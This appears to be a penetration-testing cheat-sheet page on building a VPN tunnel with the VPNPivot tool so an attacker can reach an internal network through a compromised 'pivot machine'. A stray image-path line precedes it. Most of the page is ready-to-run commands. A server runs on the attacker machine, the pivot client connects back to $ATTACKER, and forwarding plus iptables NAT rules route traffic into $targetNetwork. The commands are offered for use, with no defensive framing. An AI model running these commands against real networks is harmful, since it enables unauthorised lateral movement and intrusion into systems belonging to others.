 # VPN Tunnel

## Tool: VPN Pivot

Link: https://github.com/0x36/VPNPivot

Same as SSH VPN, but we use TLS/SSL instead of SSH

### 1) On the attacker machine

    sudo pivots -i tun1 -I $newInterfaceIP/24 -p $listeningPort -v

### 2) On the pivot machine

    sudo sysctl net.ipv4.conf.default.forwarding=1
    sudo pivotc $ATTACKER $listeningPort $targetNetwork

    sudo iptables -t nat -A POSTROUTING -s $ATTACKER -o $INTERFACE -j MASQUERADE
    sudo iptables -t nat -A POSTROUTING -s $ATTACKER -d $targetNetwork -j MASQUERADE
